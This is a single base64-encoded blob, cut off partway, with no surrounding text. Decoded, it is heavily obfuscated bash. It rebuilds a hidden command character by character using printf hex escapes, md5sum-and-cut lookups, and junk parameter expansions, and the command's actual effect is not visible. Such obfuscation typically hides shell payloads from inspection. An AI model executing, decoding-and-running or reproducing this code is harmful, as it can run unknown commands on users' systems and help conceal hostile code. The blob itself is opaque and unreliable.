IiIyIiMSIwJHsqLCx9MCoiNSIkeypefSMke0BeXn0xMykrMyIke0AvLzhmZHxOLyRWT0dcfXItfSIjIjEiJHsqLH0xKSkgKSktJFsgKCgtNCR7KiUjOXBJKzJ9MSNhLTYiIyIxMikrNCMyMzMpIF0gICR7QC8uKi5KWTMvVnpWYixcfVNqfSAgICkiICAgJHsqfn59ICA7ICIke0B9IiAgJCogIHByaSR7Kn59biIidGYgICAiXHgkKCAgICR7Ki8vYmswNzpsXHtBLyVJSlxgSWt9ICBwIiJccicnaSJuInRmICAlcyAnX2JTRldxQScgJHsqJXJUXChXfSAiJHtAIyM4Nlx7MTpIXHt1fSIgIHwgJHsqXl59ICAkJ1wxNTUnXGQkeyovXCFcXXp6LyZUVk0rfTUkJ1wxNjMnJ3UnbSAke0AlJW41LmVKOnRcIX0gfCAgICIke0AjPFx7P3R9IiAgJHsqLH1jdScnJCdcdTAwNzQnIC1iICAkKCggICAoKDQ0JHsqLCx9IzArJHsqLz1kZ3IvXH1cKTVMTio2fTE0IyR7KiMjTEJjLk59MTIpKyIyIiMxIiR7QCwsfSIwMCkgICApKS0kWyAoLSgtKDgjIiR7QH5+fSIxMC0tIjIiNyIjIjFlKSsyNyMxJHsqXn0xKSkgXSAkeyFAfSAgICkiICAiJHtALy8yeS5ucz8vRDFvOW9XfSIgJHsqLy8jO2dQdUw3fSAgIDsgJHsqXn0gICBccCJyImludCdmJyAgIlx4JCggJHsqXn0gICQqICBwJHshKn1yJHsqJSVyXkYsfWkiIm50ImYiICVzICdyIVRzcicgICAkeyovLyMjNUc5OWpGfSB8ICIke0AlJUB8LkpUQzNffSIgICAkeyolJTtiTypOQGc1fW1cZCcnNSIiJ3MndW0gJHsqJSVCbVF4ZklhfSAgJHshKn0gICB8ICAgJHsqLz1INCZ9ICAgY3UiJHtAXl59InQgICAtYiAgJCgoICAoKCQqLTIyIyIxIioiMyIiOSIiIyIke0B9MCkrMiMiJHtAfn59IjEke0AsLH0wMCkgKSktJFsgICgoLSI0IjMjIjEiLTIiIyIxIjAiJHsqLCx9MCkrIiR7QCNIXj5ZfSIyIyIxIjAxMCkgICBdICAgJHsqfSAgJHtAJSVEKyU1c1wiXCI4fSAgICkiICR7Kn59IDsgJHsqIyNZdEMwfSAgcCIiJCdyXHg2OSdcbiQnXDE2NCcnZicgICJceCQoICAgJHsqJVx9Q0h1Pn0gJHsqJSVpO1h+XFx9ICAiInBcciQnXHg2OSciJHtAXl59Im4kJ1x4NzQnJyciZiIgICAlcyAnI1RoKyp3JyAgICIke0AjJHRhXHs/fSIgICAkKiAgfCAke0AlJX4/eHVDXCIlR30gICAkeyFAfW0nZCc1J3MnIiJ1IiInbScgJHsqXl59ICAiJHtAXl59IiB8ICAkQCAgIGNcdSd0JyAgIC1iICAkKCggKC0oLSgkeyovL3UzXGBHfS0keyp9MiIjIjExKzUiMiIkeyp+fn0jaykrMyR7KiVXUCV4Llh1fSMyMCkpICkpLSQoKCAoKCR7QF59LTIwIyR7IUB9MSIwIiszIzIke0B+fTEpKzMxI3ApICAgKSkgJHshQH0gICkiICAgJHsqIyN6NjVedn0gICAke0AvRiprVlVkQCQveCVtQT1MM30gJiYgJHsqfn0gICQqICAiIiR7Kl5efXAnJ1xyXGknbidcdGYgICAiXHgkKCAkeyovMmR6WSssbFV9ICBwclxpbnQkQGYgICVzICAneCRCJXtOJyAgICR7Kn59ICB8ICAkeyosLH0gICQnXHg2ZGQnJyciNSJzdW0gJHtAfSB8ICAgIiR7QH59IiAgJCdcdTAwNjMnJCd1XDE2NCcgIC1iICAkKCggICgoLTIiIyIxMDAtJHsqfn59LTQiIyIiMiIxKSs1IjkiIiMiMSkgICkpLSRbICgoIjYiMCR7KiVyXGAtXHoscSp9IyIwIiozJHsqLy9mSzI3V1F9MCMxKSs3IzEwKSAgXSAgICR7QCMjXGBcW0RGfSApIiAgICR7QCMjXjw5dz1JfSA7ICAgJHsqLzRcW2pIbi9xd0AwNllcYDt9ICAgJHtAL0RjbC1kN0Z2Lz8+OlwobCpSKn0gICAkJ1wxNjAnJ3InJ2knIiR7QCwsfSJudCIiJCdcMTQ2JyAiXHgkKCAkeyovL0ZcW2w2SVViJC9ANGEjYyp9ICJwIiR7QF59ciIke0AjdCZDanh9ImludCR7Kn1mICAgJXMgJ2oyKmknICR7QCMjQW9zZDNkfSB8ICAgJCogbWQnNSdccyQnXHg3NSciJHtAI241d0lcLUZ9Im0gICAkeyovLy02fmNMfSAgICR7Kn59IHwgICR7ISp9ICBcYyR7QF59dXQgICAtYiAgJFsgICAoKDMwIiMiai03IzEwKSs1OCNoKSAgIF0tJFsgICgtKC0oIiR7QH0iNTUkeypeXn0jImQiKiIyIiMxMTApKzI1IzFuKSkgICBdICR7Ki8vNzF0TE59ICR7Ki90THppXCFrNX0gICApIiAgICR7Kl59ICAgJHsqJUVQVUg7cllxfSAgJiYgJHtAJSVhXCF+NmN9ICAgJ3AncmkkJ1x1MDA2ZSdcdGYgIlx4JCggICAkeyp9ICAgJHtALyNJYm1cfX1wJCdyXHUwMDY5JyIiblx0J2YnICVzICAgJ2xRSzEsOG4mJyAke0B+fSAgICR7Kn0gfCAgICR7KiU+ayRSfSAgJCdtXHg2NCckKCggICgoLTQjMiIwIistMiIke0AjI2p2XHsqeS1jfSIjMSIxIikrMzIjZykgICApKXN1bSAkeyp+fn0gICB8ICAke0AvL2tcIXI0eT59ICAiJEAiICAgYyQnXHg3NSciJHtAIyRUUldPemtmfSJ0IC1iICRbICAgKCg3IzEyKiItIjIjIjEiMDEpKyIyIiI2IiR7Ki8vXFx6MnR9IyR7QH5+fTJmKSBdLSRbICgoMyIjIjEkKjAwKiI1IjIjMCkrJHsqfn59MjIiIyIxMSkgXSAgICR7ISp9ICAke0AsfSAgKSIgICR7KiUtUEIkQ1V9ICAkeyovL1xgXCFuTS86bDN5UlZ9IDsgICR7KiNKbWxcW3JwXCJVfSAgJHsqLH0gICAncCdyaVxudCIiZiAgIlx4JCggJHsqL3dPXH1+L1x9LlwoLjBILn0gJydccHInJ2kkeyojI2dcXXBIXClGXCktfW50IiJmICAlcyAnflpTPTh0bVEnICAgIiR7QC92VVxydC9cKSVicDQwfSIgICAkeyosfSAgfCAke0AvMGdAZVY/cH0gICAkJ1x4NmRcMTQ0NXMnXHVtICAkeyovYStCXF0+Y30gJHtAXn0gfCAiJHtAfn0iICAiJHtAfn59IiAiImMkeyolJVo8XFtaJGF9dSR7IUB9dCAgLWIgICAkKCggICAoKDE4IyR7QC88Yzc8RX0xLTQjIiR7QCx9IjEwKSs1MCR7Kn5+fSNrKSApKS0kKCggICgtKC0oMyI5IiR7KiMjPld0elx7SFo3fSNrLS0zIjkiI3IpKzIke0AsLH0zIzEiNiIpKSAgKSkgICR7KiwsfSAgKSIgJCogJHsqLCx9ICAgJiYgICR7QF59ICAgJHtALCx9ICdwJyR7Ki8+UmhcW3UkfFJ9ciIiJCdpXHUwMDZlJyd0JyIiZiAgIlx4JCggICIke0AvL0xqbjAtc2ovSSRwPkx5fSIgICAiJHtALy91RjhLVCQ+XF0vQGpITWIyXCJ2fSIgIFxwJCdyXDE1MSduInQiXGYgJXMgICAnY1gqelg7JEAnICAgIiR7QH59IiAgfCAgJHsqXl59ICAgJHsqfn0gICIibWQiIlw1JCdcdTAwNzMnJCdcMTY1bScgIiR7QCx9IiAgICR7QF59ICAgfCAgIiR7QC9ONmkmL3lcYDQtMXB9IiAiJEAiICAgJydjdSIiXHQgIC1iICRbICgoLTUyIyJDIiskeyp+fn0tNDMjImIiKSs0JHsqL3lwSlx7K0sveSN4fGo5fTgiIyIiMSJrKSAgIF0tJFsgICAoLSgtKDQiIyIyMS0iLSIzOSMiQSIpKyIke0AvL1JoalRlYn0iMyIwIiMiJHtAfn59InApKSBdICIke0AsfSIgIiR7QCNtTmlCO01vdX0iICkiICIkQCIgICAkeyovTUU3MiVZZUd9ICYmICAgJHtAfSAgJHshQH0gIHByaW5cdCcnImYiICAgIlx4JCggICAke0B+fn0gIHAiInJpbiIidCQnXDE0NicgICVzICAgJzV5LjgnICAke0AvL1lNT1xdUC9ZODdWfSAgfCAgICR7Kl5efSAgIG1cZCIiJzUnc3VtICAkeyolJW9nV3YwX30gJHtALH0gfCAgJHsqIyNpZ3lcITF9ICBjdSIiJCdcMTY0JyAgLWIgICRbICAoKDMiIyIkeyp+fTEwLSR7KiwsfTMjIiRAIjEwKSskeyolJSp5dDdfRnR9MSI0IiIke0AsLH0iIzIpICBdLSQoKCAgICgtKC0oNCIjIjEyLS0yNiMxKSsiMiIiJHtAL0Z6MkxfaXovWGtQOn0iIzEwMCkpICkpICAkeyosfSAiJHtALH0iICkiICIke0AsLH0iICAmJiAgJHsqfn0gIHAnJyQnXHg3MicnJ2ludGYgIlx4JCggIiR7QCUqZCpmeC59IiAgJHtAXl59ICAgJCdcdTAwNzAnXHJpbnQiZiIgICAlcyAnZHEhIScgJHshQH0gJHsqfn0gfCAke0AvLzstazQlXCF9ICAgJHsqL1x7SUtIOXEvNWk/PVl+TDZ9IG1kNXMiIlx1bSAgICIke0B+fSIgICIke0AlRSVKdzV3XCh9IiB8ICAke0BeXn0gXGMiIlx1J3QnICAtYiAkKCggKC0oLSgyIyIxIiIxIisiNCI3I2cpKyR7ISp9NDAjIjAiKSkgICkpLSQoKCAoLSgtKC0zIzEwKyR7KiMjJmJqTlxbaG1OfTQ2I24pKyI0IjkiJHtALH0iIzApKSApKSAkKiAgJHshQH0gICkiICAke0AjQkFcKVwhfSAgOyAgICR7QH5+fSBccFxyaSR7KiUlaVwhdi1Yan1uXHQnJyQnXHUwMDY2JyAgIlx4JCggJHtAL18xXGAxL0cyXCkkKnBCaX0gICBwJHtAL1N+Nys0WH1yaW50ZiAlcyAnOHprYScgICIke0AjI1M8PVwpUzlqXCJ9IiAgIHwgICAiJHtALy9SXCg4bi9UVlN3bjZ9IiAgICIiJ20nZCRbICAgKCgiMSI1IzArMjEjJHsqfn59MCkrJHtAIy5RJTJ9NCMxIjEiKSBdcyRAdW0gICR7Ki9WOXIxWH0gICB8ICAgJHtAJVZuMDx8fSAgJHsqXn0gICAkJ1x1MDA2MyciIiR7QCx9dSR7KiUlXFZwN3l9dCAgIC1iICAkWyAgICgtKC0oMSR7QCN6N0VNU304IiR7QC95Yl5hXEQvbzA2dys3fSIjMiIke0BefSJiLSIke0AlJCtZalwoSlh9Ii0iMiIjMTEpKzU1I2wpKSAgIF0tJFsgICgoJHsqfn01IiMiMSR7IUB9MSoiMiIiJHtAfn59IjMjJHsqfTEpKzU0I28pICBdICIke0AsLH0iICR7QH0gICApIiAgICR7QF59IDsgICAkeyoleSw4XCEjRX0gICR7IUB9ICAncCcncidpIiIibiJ0JHsqL19JVkkvajBucGxMU31mICAiXHgkKCAgICR7QC8xXH1SajI2L0RcITZFYX0gICAnJ1xwJHtAfXIkJ1x1MDA2OSckeyojIytoRVV9biQnXHUwMDc0JyR7Ki8vSUM6JH5ERk0vXF1oXGAxXFtIfWYgJXMgJ3s2KTonICAke0AjZ1kzWE03fSAgIHwgJHtALyxOLFxgZ30gICBtImQiNScncycndSIiXG0gJHsqXl59ICB8ICAkeyovOS5kMS9Uemw3U2Y6fSAgICR7QH0gICAiYyJ1InQiICAgLWIgICQoKCAgKCgiLSIiMiIxIyRAMiotIjMiIzEiMSIpKzQwI2kpICApKS0kWyAoKC0iMyIiMSIjMW4rMiIjIjEwMDEiMSIpKzE2IzMkeyp9ZSkgIF0gICR7QH5+fSAgKSIgICAiJHtAL1xgJlxXL3RONT4wXCl9IiAgJHtAJVwhSFw5fSAmJiAiJHtAXl59IiAgIiR7QC8vRFxdXH1eO2p9IiAgIHAke0AsLH1yaSIibnRcZiAiXHgkKCAkQCAkeyp+fSAkJ3BcdTAwNzJpJ1xuJyckJ3RcdTAwNjYnICVzICAnVEp5IU16ZGInICAgJHtAJSVGYT5sfn0gICAiJHtAIzQ/XF12TS1Nb30iICB8ICAkeyolJWZCbVw8dVglfSAgICIkQCIgXG1kNSIiXHN1bSAgJHsqJVwpQHZydyxQfSAgIHwgIiR7QCUlMFBQXF0lcn0iICAgIiRAIiAiYyInJ3UndCcgLWIgICAkKCggICgoIi0iNTQjMi0zOSMiMSIpKzYxI2EpICAgKSktJFsgKCgyJHsqfn59NiMyKjE4IyR7Kn5+fTEpKyIzIiIjIjIwKSBdICAkKiApIiAgICR7Kl5efSAmJiAgJHtAfn0gICAiIiQnXDE2MCcncidcaSIiJ24nJHshKn10ZiAiXHgkKCAke0AvL3ZkfktyL0hlWEJcW30gICR7Kn0gIFxwJHsqLy98X0xoLzokd2x2d1xdfXIiIidpJyQnXHg2ZScnJ1x0ZiAlcyAgICdce3cyNicgICAkeypeXn0gICIke0AsfSIgfCAgICR7KiU2U0BacFxbWH0gJyckJ1x4NmQnZDVzdSQnXHg2ZCcgICIkQCIgICB8ICAgJHsqLy9KPX56OTovUyVcIVx4UFYqfSAgJHsqfn59ICdjJyd1JycnJCdceDc0JyAtYiAgICQoKCAoKCR7QCUlP1wpTFJ+UX0tNyR7QCx9IzI1LS00IzEiMSIwKSs0NiIjIiJzIikgICkpLSRbICAgKCgiLSIke0B+fn0yIzExIjAiIjEiKzQkeyp9MCMiQiIpKzIjMTEkeyp+fTApIF0gJHsqL3hcWyZcW1xdL2JvIzkjMGNhfSAkeyovNUQ+S0cvQCw5YjxmXG59ICApIiAgICIke0AvalJWeH0iICAgJiYgJHsqLH0gICAkeyovL1ZXNztufSAgcFxyXGknJ250ZiAiXHgkKCAkQCAgICcnXHAncidpJ24ndCcnJHshQH1mICAgJXMgJy5pQE5RPyFTJyAgJHsqJSVSc1pTTn0gIiR7QC9kJFY4L0EmSTt9IiB8ICQqICR7KiNcXT5cYCorfSAgbWRcNXMkeyp+fn11bSAgJHsqLH0gJHtALyYuRnhcIn0gICB8ICR7Kn59ICAgJHsqXl59ICAgJHtALCx9Y3V0IC1iICQoKCAgICgoJEAtMzYjMSozIjciIzIpKzMyI2gpICApKS0kKCggKCgtMiMxIjEiKiR7KiMjbT1ORFYscWV9MyR7Ki9Vc3JQcC8jQE1oVDhtfSMkKjExKSsyIjUiIiMiMTMpICkpICAkeypefSAgICkiICAkeyp9ICR7KiMjQjRHfk81a30gOyAgICIke0AlOlwpQ2d0SlBlfSIgICBccCcnclxpJ24ndGYgIlx4JCggJHtALCx9ICAgJHsqL3ouUFxcfSAgJCdcdTAwNzAnJ3InXGluIiIkJ1wxNjRmJyAgJXMgICdKVW5aY0onICAgJCogICIke0B+fn0iICAgfCAkeypeXn0gICR7QCwsfSAgIFxtJHtAI1xdLm1cInFDfWRcNSJzIlx1JHsqfn59bSAke0B+fn0gICR7QH5+fSB8ICAgJHsqXl59ICAgXGMndSciIiJ0IiAgIC1iICRbICAoKCIke0AvX2tHXkVsfSItNiMxMio0IzEiMiIpKyR7QCwsfTI2IyIzIjEpICBdLSRbICgoIi0iMyMkeyovL083NkAsTH0xIjAiMCokeyosLH02JHsqfn59NCIjIjApKzY0I3cpICAgXSAke0Ald2FAOX0gICR7QCMjVnlOXHt9ICkiICAgJHsqXn0gJHsqL2FEWHFtSi9zRUVcKFxgfSAgICYmICAkeyp+fSAgcHIiImkiJHtAL0d8V1N1a1YmfSJudGYgIlx4JCggJHsqLy9odXM/Ln5uR30gICIke0AvPG51Lj9FYUF9IiAicCJyJHtAfn1pbnQnZicgICVzICAgJzU+X3snICAkeyosfSAgJHsqLCx9ICB8ICAkeypeXn0gICcnbWQ1J3MnJydcdSR7IUB9bSAgJHtAXl59ICAiJHtAXl59IiAgIHwgICAiJHtALH0iICAgJHtALCx9ICIiXGN1XHQgLWIgICAkKCggICAoLSgtKCI1IjEjIjIiLSR7KiMjI3BjNX00MSIke0AvXHorRjFEMyMvc1xbWVJcIV53fSIjIjAiKSs1MiMiMCIpKSAgICkpLSQoKCAoKC0yIzEkeypefTErMzMjMCkrIjUiIyIxIjEpICAgKSkgICR7ISp9ICkiICR7KiUlbjtCXFtzXFtafSA7ICAgJHtAI1xgZWhcQnZMfSAkeypeXn0gICAicCIkJ1wxNjInXGkkJ1wxNTYnJyckJ1x1MDA3NCckQGYgICJceCQoICAkeyolJVhcKDpzWnkxSn0gJHsqfn59cFxyImkiblx0ZiAgJXMgICAnS3FSaFE4VVYnICAgJHsqXl59ICAkeyolMyQsfH0gfCAgJHsqI1NcYHFAfSAgIFxtZDUnJyQnXHUwMDczJyIiJCdcMTY1XHUwMDZkJyAgICR7Kn0gICB8ICR7QC8sXF0rfiV9ICQnXHUwMDYzdScke0B9dCAtYiAgJCgoICAoLSgtKCIke0AsfSI1NyR7Ki8vTlIxUzs/fSNHLTM1IyR7QCx9aSkrJHsqfn02IjAiIzIpKSAgICkpLSRbICAgKCgtMiIwIiMxKjMiIyIiMSIiMiIpKyR7Kix9MzAjInMiKSAgIF0gICAkeyovL3JUNjJrfSAiJHtAfn0iICApIiAke0AvTVx3RmM6QS9YXFtvRzBeXFx9ICAgJiYgIiR7QH59IiAgICR7Kn0gIHAkeyp9ciJpIiIibnQiImYgICAiXHgkKCAgICR7Kn0gJHsqfn1wcmknJyQnblwxNjQnJ2YnICAgJXMgJ0h9czwnICAgJHsqLy9GaDFyYy9GQzojan0gICR7QF59ICB8ICR7Kn5+fSAgICJtIiR7Kl5efWQ1XHN1JHtAfn1tICR7QCVrJWtaeT89fSAgfCAgIiR7QC9ZI0NRJjdRZX0iICAgJHtALy8wfGpCen0gICBjdVx0ICAtYiAgJCgoICAoKDEiMyIjMioiMyIjMTEpKzMjJEAxMikgKSktJCgoICAoKC0iNCIjIiR7QC8vOmVPdzh9IjEke0AvZlZcKCp+dzIvfGxYXHsrfTItLTQjJHsqLy9LLklvXF0vblxgXClsTnp9MSR7KiMjXClcIUl4fTApKzMiNCIjImciKSApKSAgJHsqLH0gICkiICAke0AlQ1B3RGoqMVd9ICAgJHsqI1xdajI1fSAgJiYgICAkQCAgICQnXDE2MCciIiQnXHg3MidpIm4idGYgICJceCQoICAgJHsqLH0gJHsqI1MwQUN0NH0gcCdyJ2kiIiduJyR7KiUldlQxJEh9dCIiIiR7QF5efSJmICAgJXMgJzFmXDcnICR7QCwsfSAgfCAgICQqICcnJ20nIiJkJCgoICgoLTUjJHsqLH0xMystMzEjMikrIjUiJHsqJSVcVT05ZCZ9MiMiZiIpICkpc3VcbSAgICQqICAiJHtAXl59IiAgIHwgICAke0AsfSAke0B9ICBjInUidCAgLWIgICQoKCAgICgtKC0oLTQjMjAqIi0iNSMxJHsqLy9YMkRcWzZcXC9MeUtLWH0xKSske0B9MSR7Ki92XCJGcCN9OSMxMSkpICApKS0kKCggICgoIi0iIjEiMyIjImIqNSIjIiIke0AlJUBcIWltUzhafSIxMSkrNjEkeyolbCs6ViZ9IyIxIiJ5IikgKSkgICR7KiwsfSAkeyovL3I9SWVwXGBNK30gKSIgICAiJHtAfn59IiAiJHtAJSVqLW5pTn0iICAgOyAgJHtALH0gICAkeyovZnI9bTJLfSAgJHsqL1wrc29wfXBcclxpJCdcdTAwNmUndFxmICJceCQoICAiJHtAJSVcKVkyQX0iIHBccidpJyQnblx4NzQnJHtALH1mICVzICAnLVs0eWBaJyAkeyosfSAgIHwgICAke0BefSAiJHtAfSIgIG0iIlxkJCdcdTAwMzUnXHMnJ3UiIm0gJHsqLy9cfUZQVy9GeHRQeCV9ICAkeyolJSNrVz4jfSAgfCAkeyosLH0gICR7KiUlcEA2XCJWSm19ICAkeyojIzxBXGBXSXhcW0R9YyQnXDE2NSckJ1x4NzQnICAtYiAgICQoKCAgKC0oLSgyMiMiJHtAfn59IjEtLSIke0AlJSxjanBKXHt9IjMjMikrIiR7QH5+fSIyNCMxKSkgKSktJFsgICAoLSgtKCIzIiMxMS01IjQiIiMiIjEiKSszMiR7Ki9cInY6RTZnPUt9IyIwIikpICBdICAkeyosfSAgIiRAIiAgKSIgICAkeyp+fSAgJiYgICAke0Avbix1djxce30gICQnXHg3MHJpJ24keyovLzRxWlA4Vn10JydmICJceCQoICAgJHsqJSVcInY3cl9MT30gICBwJ3InaW50ZiAlcyAgICc/czhQWVwlJyAgJHtALCx9ICR7QF5efSAgIHwgJHsqL1QxcVx7LkIvOllxaXd9ICAkeyojIyR2RXRcInhrPX0gICAkeyp9bSJkIiIiNVxzdSR7QCMjTTJEdHRTfW0gICAke0AlcjNJS3Z9IHwgICAkeyovS1h8ZThsLyRDUGlWYWVIfSAgXGMiIiQnXHUwMDc1JyIidCAtYiAgICRbICgoLTUkeyovLzVcKTRFeH05IyIyIi02MCMyKSsyMyMiJHtAI0RILCMmfSJnKSAgXS0kWyAoKC0zNiIjIjEqMyIjIiR7Ki8vRGpvTF49bH0xMSkrIiRAIjQ5IyR7Kn1oKSAgIF0gJHsqXn0gICAkQCAgICkiICAkeyosLH0gOyAgICR7ISp9ICAkJ1x1MDA3MCdcclxpJCdcMTU2dCcnZicgIlx4JCggICAke0AjI2FcKVgyRT9VNX0gJHsqJUNLSVwiSXhpfSAgIFxwcidpJyIibiIidFxmICAlcyAnN2NlZ30nICAke0AlfjdiXiN9ICAiJHtAXl59IiB8ICR7KiMjRm5CXFsrfH0gIiJcbSR7Ki8vWHleZiVGNn1kNSQnXHUwMDczJyR7KiMjLjBcXVlcYn11XG0gJHsqLy9JdEh2fSAgIHwgICAiJHtALyw9XClhMDBEL2Zce2xQbTZrfSIgIiR7QCwsfSIgIiInYyckJ1wxNjUndCAtYiAgJFsgICAoKDIjIjEiMDEqLTQjMTApKzE4IzFmKSAgIF0tJCgoICAgKCgyOCNvLTQke0B9OSIjImIpKzQ3IzEpICApKSAkeyEqfSAgKSIgICR7QCx9ICYmICIke0AveTRLXyU8MFcvXFxGXH1EK30iICAgIiIkeyovL1whXGBMfXAnJ3JpbnQkeyosLH1mICJceCQoICAgIiR7QH5+fSIgICAke0AvL2VRdH5ce30gIHAiciIkJ1x4NjknIiJudFxmICAlcyAgJ0dIRjMqeycgICQqICAiJHtALH0iIHwgICAke0AlJVx9Sjh4XGAqTX0gbScnZCQnXHgzNXN1JyJtIiAgJHsqLy9nLUdWdEAmXF19IHwgICR7Kn59ICAke0AjI2tqP3JufSAkJ1x1MDA2Mycke0AjI0AyaFwifXUndCcgLWIgICQoKCAgKCgxNyMxKjUiMCIjMikrIjUiJHsqL2Fnd1xdfSMkKjEiJHtALCx9IjApICAgKSktJFsgKCgkeyovfkZ0PH0zIiR7QC8vbjxcYDQvQFlaOVU9Nn0iNyIjIiIyIioiMyIkeyovMi5STzV5O3x9OSIjIjApKyR7QCwsfTgjMTApICBdICAgJHtAfn0gICkiICIke0B9IiAkeyojdjFqUn0gICAmJiAgICR7KiUyZ05RXFtcKX0gICR7KiVcIVwibEdlan0gICBwcicnImkiIm4iJCdcdTAwNzQnImYiICAiXHgkKCAkeyp+fn0gICAke0B+fn0gJHtAXl59cHIkeyp+fn1pJyduXHRmICAgJXMgICdaUCs6JyAgIiR7QCwsfSIgIHwgICAke0AvLzxcIlkyR19ZLzUmclVvfSAgJHtAfn0gIFxtIiR7QF5efSJkJCgoICAgKCgtNDAjMSokKjIiMyIjMSkrIjIiIiR7QCx9IiMiMSIxMCkgKSkiInNcdSdtJyAgJHsqLy80LVI6OCt9ICAgIiR7QH5+fSIgfCAkeyolJVA4SjJ8TmRZfSAgICdjJ3UnJ3QgIC1iICAgJFsgKCgiLSIiNiIjMTIqMjkiIyIkeyFAfTApKzIiNCIjIm0iKSBdLSQoKCAoKC0xJEAyJHtAfn59IyIxImErMSIkQCIyIzEkeyp+fTEpKzMiMCIke0AjI180VVwiaXhTNX0jMSIyIikgKSkgJHtAfn59ICR7Kn5+fSAgICkiICAiJHtAL3puYlx7dFYvfHQ/en0iICIke0BeXn0iICAmJiAgICR7Kn0gICBwXHJpIm4iJCdceDc0JyIiZiAgIlx4JCggICAkeyFAfSAiJEAiIFxwcicnaScnXG5cdGYgICAlcyAnbHMtZCcgICIke0AvQixuKnNcKTV9IiAkeyojZ1x7ckJ1QjV9IHwgICQqICAkeyp+fn1tIiJkNXN1JHsqLy85Lk9cKHRDfW0gICR7Kn0gICB8ICR7QC8vcUEwLnEvRVR8XChPfSAgJHshKn0gIGMkeyovJS0ra2UvX1wibkw2XHtVZn11XHQgLWIgJFsgKCgkeyojI0llZjdlUXx9LTIiMyIjbCszIiMiMSR7KiNcW3IsUj1ffTIpKyI1IjIjcykgXS0kWyAgKCgtMjkjbyske0BeXn01OCNvKSsxMSMxIjIiKSAgIF0gICR7Kl59ICAgKSIgICAke0B+fSAgJHsqLCx9ICA7ICR7Kn0gICIke0BeXn0iICAicCIiInIiaSInJyQnXHUwMDZlJ1x0J2YnICAgIlx4JCggICR7Kl5efSAgJHsqI3VTcEA7fSBwJCdyXHg2OW4nJHsqLH10JCdcdTAwNjYnICAgJXMgICAnNmpoeScgJHtALCx9ICAkeypeXn0gICB8ICAkeyovOzY/XCg3fSAkeypeXn0gICAibSJkNVxzdW0gJHsqXn0gIHwgIiR7QCUlLjVoPFxgMX0iIGMnJ3Ukeyp+fn10IC1iICAgJCgoICAgKC0oLSgxJHsqfTkjYSskeyp+fn01IjMiI2kpKzYwI2QpKSApKS0kKCggKCg0IjAiJHtALH0jMSoyJHshQH0jMSIxIikrIjYiMCNkKSAgICkpICAgJHsqfn59ICAkeyEqfSAgICkiICIke0B+fSIgICR7QF59ICAgOyAgICR7QH59ICAgcHJpbnRmICAiXHgkKCAgIiR7QF59IiAgJHsqLy9uU3UjXChmdEovPF9sTkg3fSAgIHAnJ3JpbnQnJ1xmICAgJXMgJ3R+TigsKyxTJyAgICR7QH0gICAiJHtAXn0iICB8ICR7Kix9ICAgJHsqLy8lNTNcKD1tLytqXix+fSBtJ2QnJCgoICAoKCItIjYzIyIxIiokeyp9NTIiIyIiMSIpKyI2IiR7Kn5+fSMxIjAiKSAgICkpJ3MndW0gICR7Kn0gfCAgICR7ISp9ICAgIiJjdXQgLWIgICRbICAgKCgke0B+fTI1IyR7QC9OXk1kST99ZSstNDcjMikrIiR7QCx9IjYiIyIiMSIxKSBdLSRbICgtKC0oNDAiIyJ0LSR7Kl59LTU3IiMiZykrJCoyMyMiMSIyKSkgXSAkeyovTFxgcyMsbVUvI1wiT0deN30gICApIiAgJHsqXl59IDsgJHtALy9IanJNby88YXdnNi19IHAiciJcaSR7QC8vVkM6cy8mb01ufW4iInQiZiIgICAiXHgkKCAgICR7QF59ICAgJHsqL34jLVM0bkhcfS9cKEduXCF9cCIiJCdcMTYyJyR7Kl5efWluJ3QnZiAgICVzICd8M1J8VCcgICAkeypefSAgIHwgICR7QCMjdzxwMX0gICBtZDVzXHUnbScgICAkeyojI3Y7JkVsfSAgICR7Ki8vfmZ5OmEvckd+SH0gIHwgIiR7QC8vZjo9QnM3bU8vMVdpRmd9IiAkeyovRj5cIlJTc3oval5yXmdkfSAgIGN1dCAgLWIgICRbICgtKC0oJHsqIyN2c1gsclRcYFwpfTQ2IiMiZi0tIiR7QC8vSEZyLS9ce2pRUDB9IjQiNSIjIjEiKSs0IyIxIjApKSAgIF0tJFsgICAoLSgtKDQkeyojIytzXCJcIjhkfSMiMSIyLS00IiMiMiIxIikrJHsqLCx9MiI5IiMiMiIpKSBdICAgJHsqLy9YPSM7QnVcKC9CNVI/TH0gICkiICAgJHsqLH0gJHtALH0gICAmJiAgICR7KiUlZU5eakJ9ICAke0AlXCFMSVlBaH0gJyckeypefXAncidpJ24ndGYgIlx4JCggICAke0AvL1xgYS1cW1h9ICR7KiNcIUZOdFwpMVQlfXByaSIiJCduXHg3NGYnICAgJXMgICAnUChXeicgJHsqLy8qUW02O2hnfSAgICIke0AjI1g+SlxbbSR9IiAgIHwgICIkQCIgICR7Ki8vQzF0UUkvXCI6LHJ9bSdkJzVzJyckJ1x4NzUnJHtAfn59bSAkeyEqfSB8ICAgJHtAXl59IGMnJ1x1dCAgLWIgJCgoICgoIjMiNiMiJHtALH0iMCo1IzEwKSs0IjYiIiMiJEBmKSAgICkpLSRbICAoLSgtKDYjMTIqNCR7QCVIVUNJfTIkeyp9IyIyIikrMiR7Kl5efSMwKSkgICBdICAgJCogIiR7QC8vek1VNmxXXy8rXCFcInM0YlwoPH0iICkiICAkeypefSAkeypefSAgJiYgJHshKn0gICR7KiUlJlNcW1czXFt9ICAkeyojI3M9UFN9cCR7QC9iayUqYjtGLzVpYX5YfXIiJHtAfn59ImluIiJ0ZiAiXHgkKCAgICR7Ki8vaCpceyMvVERoeVNcKH0gICAnJyR7KiwsfXAkeyp+fXJpbnRmICAlcyAnczlhS1ZacHQnICAgIiR7QF59IiAgICR7Kn59ICB8ICAgJHtAfn59ICIke0B9Im0iIiJkIjUncyciIiQnXHg3NScibSIgICR7KiUkbTdYeDFsfSAgfCAgICR7QCMjNkQxXH1LfSAiJEAiICAkeyovTDhaZSZlVTovb09ER31jJCd1XHg3NCcgICAtYiAgJCgoICAgKC0oLSg0JHsqI0g1fEV9NiNjLS0zJHsqIyNZR1ljfTMiIyIxKSs1OSMyKSkgICApKS0kKCggICgoLSIzIiMxIjEiKiR7KiMjOjVJMyR9MyMxMCkrMSR7Kl5efTEjMjIpICApKSAiJEAiICAkeyovO0lsaH0gICApIiAgICR7KiUlYix+WjJce30gJHtAXn0gICAmJiAgICR7Kn59ICAgcCcncicnXGluXHRmICAgIlx4JCggICAkeyovLz8sNCNZWi8yS1FvQn0gICIke0AjIzsyJEF9IiAgcCR7Ki8vUiRXJiZ9cmluIiIkeypefXRcZiAgJXMgICdMbH40ajNoJyAiJHtAfSIgICR7KiUlPWlHOD19ICB8ICAiJHtALH0iICAgJHsqL3A+c1wiMDN9bScnXGQkWyAgKC0oLSgkeyovWS1nYW99MjYjIiR7QCMjc